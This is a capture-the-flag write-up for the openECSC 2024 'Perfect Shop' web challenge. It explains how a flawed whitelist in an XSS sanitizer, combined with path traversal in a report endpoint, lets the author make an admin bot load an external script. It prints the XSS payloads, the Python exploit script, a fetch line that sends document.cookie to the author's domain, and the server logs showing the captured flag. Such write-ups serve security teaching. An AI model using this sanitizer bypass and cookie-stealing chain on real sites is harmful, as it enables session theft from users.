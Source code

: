 # Perfect Shop

## Description
```
Do you like perfect things? Check out my new online shop!

Site: http://perfectshop.challs.open.ecsc2024.it
```

## Provided Files
```
perfectshop.zip
```

## Writeup

Starting off, I took a look at the provided files and searched for the occurance of flag. <br/>
```js
const FLAG = process.env.FLAG || 'openECSC{this_is_a_fake_flag}';

app.post('/report', (req, res) => {
    const id = parseInt(req.body.id);
        if (isNaN(id) || id < 0 || id >= products.length) {
        res.locals.errormsg = 'Invalid product ID';
        res.render('report', { products: products });
        return;
    }

    fetch(`http://${HEADLESS_HOST}/`, { 
        method: 'POST', 
        headers: { 'Content-Type': 'application/json', 'X-Auth': HEADLESS_AUTH },
        body: JSON.stringify({ 
            actions: [
                {
                    type: 'request',
                    url: `http://${WEB_DOM}/`,
                },
                {
                    type: 'set-cookie',
                    name: 'flag',
                    value: FLAG
                },
                {
                    type: 'request',
                    url: `http://${WEB_DOM}/product/${req.body.id}`
                },
                {
                    "type": "sleep",
                    "time": 1
                }
            ]
         })
    }).then((r) => {
        if (r.status !== 200) {
            res.locals.errormsg = 'Report submission failed, contact an admin if the problem persists';
        } else {
            res.locals.successmsg = 'Report submitted successfully';
        }
        res.render('report', { products: products });
    }).catch(() => {
        res.locals.errormsg = 'Failed to submit report, contact an admin if the problem persists';
        res.render('report', { products: products });
    });
});
```

Seeing a `report` endpoint which sends a request I instantly thought of a `XSS` type vulnerability. <br/>
The second thing I took a look at was the `XSS` sanitizer which was implemented via the js library `perfect-express-sanitizer`. <br/>
The important thing to notice there was the whitelisting of the path `/admin`. <br/>
```js
app.use(sanitizer.clean({ xss: true }, ["/admin"]));



const sanitize = require("./modules/");

function middleware(
  options = {},
  whiteList = [],
  only = ["body", "params", "headers", "query"]
) {
  return (req, res, next) => {
    only.forEach((k) => {
      if (req[k] && !whiteList.some((v) => req.url.trim().includes(v))) {
        console.log(req.url)
        console.log(whiteList)
        req[k] = sanitize.prepareSanitize(req[k], options);
      }
    });
    next();
  };
}

module.exports = {
  clean: middleware,
  sanitize,
};
```

Taking a look at the code of the used javascript library I realised that the whitelist check was kind of faulty. <br/>
```js
!whiteList.some((v) => req.url.trim().includes(v))
```

The issue above is that the `/admin` could be anywhere in the URL and therefore disable the sanitization of our passed payload. <br/>
Testing this exploit I created the payload below. <br/>
```
http://perfectshop.challs.open.ecsc2024.it/search?q=%3Cimg%20src=%22/admin%22%20onerror=%22alert(%271%27)%22/%3E
```

Now that I had a working `XSS` fire, I took another look at the `report` feature where the flag is being passed along and the `search` endpoint which allows the execution of `XSS`. <br/>
```js
app.get('/search', (req, res) => {
    let query = req.query.q || '';

    if (query.length > 50) {
        res.locals.errormsg = 'Search query is too long';
        query = '';
    }

    const result = products.filter(product => product.name.toLowerCase().includes(query.toLowerCase()));

    res.render('search', { products: result, query: query });
});


app.post('/report', (req, res) => {
    const id = parseInt(req.body.id);
        if (isNaN(id) || id < 0 || id >= products.length) {
        res.locals.errormsg = 'Invalid product ID';
        res.render('report', { products: products });
        return;
    }

    fetch(`http://${HEADLESS_HOST}/`, { 
        method: 'POST', 
        headers: { 'Content-Type': 'application/json', 'X-Auth': HEADLESS_AUTH },
        body: JSON.stringify({ 
            actions: [
                {
                    type: 'request',
                    url: `http://${WEB_DOM}/`,
                },
                {
                    type: 'set-cookie',
                    name: 'flag',
                    value: FLAG
                },
                {
                    type: 'request',
                    url: `http://${WEB_DOM}/product/${req.body.id}`
                },
                {
                    "type": "sleep",
                    "time": 1
                }
            ]
         })
    }).then((r) => {
        if (r.status !== 200) {
            res.locals.errormsg = 'Report submission failed, contact an admin if the problem persists';
        } else {
            res.locals.successmsg = 'Report submitted successfully';
        }
        res.render('report', { products: products });
    }).catch(() => {
        res.locals.errormsg = 'Failed to submit report, contact an admin if the problem persists';
        res.render('report', { products: products });
    });
});
```

The first important thing to keep in mind is the max query length of the search query. <br/>
This meant that I could only send a `XSS` payload which is 50 characters long. <br/>
The other important thing in the `report` endpoint was the `isNaN()` check. <br/>
These number checks could easily be bypassed using a number at the first position of the payload. <br/>
Knowing this I tried to test another small trick which was to navigate from `/product/ID` to `/search?q=`. <br/>
```
http://perfectshop.challs.open.ecsc2024.it/product/1/../../search?q=<img src="/admin" onerror="alert('1')"/>
```

Confirming my theory I now had to think about the `50-char-cap`. <br/>
The first solution I thought of was loading an eternal script from my domain `aryt3.dev`. <br/>
To test this I actually setup a small script which could be accessed via `http://aryt3.dev/admin`. <br/>
This was necessary to bypass the whitelist-check. <br/>
After testing my theory by executing the query `/search?q=<script src='https://aryt3.dev/admin'></script>` I confirmed that the exploit was working. <br/>
After reading the format which was being used by the `/report` endpoint I made a small python script to support the `XSS` execution. <br/>
```py
import requests
from urllib.parse import quote

base_URL = 'http://perfectshop.challs.open.ecsc2024.it/'

url_encoded_sh1t = quote("<script src='https://aryt3.dev/admin'></script>")

payload = {
    'id': f'1/../../search?q={url_encoded_sh1t}&/admin'
}

res = requests.post(f'{base_URL}report', data=payload)
```

The script basically pulls the `javascript snippet` below. <br/>
```js
fetch(`http://aryt3.dev/${document.cookie}`)
```

Using this I executed the script and patiently waited for a request in my `nginx-access-log`. <br/>
```
XXX.XXX.XXX.XXX - - [20/Mar/2024:21:50:50 +0100] "GET /admin HTTP/1.1" 404 125 "http://perfectshop.challs.open.ecsc2024.it/" "firefox-headless-agent"
XXX.XXX.XXX.XXX - - [20/Mar/2024:21:52:22 +0100] "GET /admin HTTP/1.1" 200 46 "http://perfectshop.challs.open.ecsc2024.it/" "firefox-headless-agent"
XXX.XXX.XXX.XXX - - [20/Mar/2024:21:52:22 +0100] "GET /undefined HTTP/1.1" 301 169 "http://perfectshop.challs.open.ecsc2024.it/" "firefox-headless-agent"
XXX.XXX.XXX.XXX - - [20/Mar/2024:21:52:30 +0100] "GET /admin HTTP/1.1" 200 46 "http://perfectshop.challs.open.ecsc2024.it/" "firefox-headless-agent"
XXX.XXX.XXX.XXX - - [20/Mar/2024:21:52:31 +0100] "GET /undefined HTTP/1.1" 301 169 "http://perfectshop.challs.open.ecsc2024.it/" "firefox-headless-agent"
XXX.XXX.XXX.XXX - - [20/Mar/2024:21:53:08 +0100] "GET /admin HTTP/1.1" 200 45 "http://perfectshop.challs.open.ecsc2024.it/" "firefox-headless-agent"
XXX.XXX.XXX.XXX - - [20/Mar/2024:21:53:08 +0100] "GET /flag=openECSC%7B4in't_s0_p3rfect_aft3r_4ll%7D HTTP/1.1" 301 169 "http://perfectshop.challs.open.ecsc2024.it/" "firefox-headless-agent"
```

This revealed the URL-encoded flag which concludes this writeup.

